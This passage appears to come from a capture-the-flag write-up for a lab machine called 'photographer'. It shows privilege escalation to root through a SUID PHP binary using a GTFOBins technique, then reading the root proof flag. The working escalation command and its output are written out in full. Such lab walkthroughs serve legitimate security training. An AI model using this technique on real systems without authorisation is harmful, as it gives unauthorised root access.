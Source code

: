First I will check [GTFOBins](https://gtfobins.github.io), searching PHP.

![gtfobins](/assets/images/photographer/phpsuid.png)

Lets give it a go.

```
www-data@photographer:/tmp$ CMD="/bin/sh"
www-data@photographer:/tmp$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root
#                                                                                                                              
```

We have root! Lets grab the flag.

```
# 
# cd /root
# cat proof.txt
                                                                
                                .:/://::::///:-`                
                            -/++:+`:--:o:  oo.-/+/:`            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`         
                       :o:``oyo/o`. `      ```/-so:+--+/`       
                     -o:-`yh//.                 `./ys/-.o/      
                    ++.-ys/:/y-                  /s-:/+/:/o`    
                   o/ :yo-:hNN                   .MNs./+o--s`   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s. 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +- 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o. 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h` 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-         
                           -/+/-:-/y+/d:yh-o:+--/+/:`           
                              `-///////////////:`               
                                                                

Follow me at: http://v1n1v131r4.com

```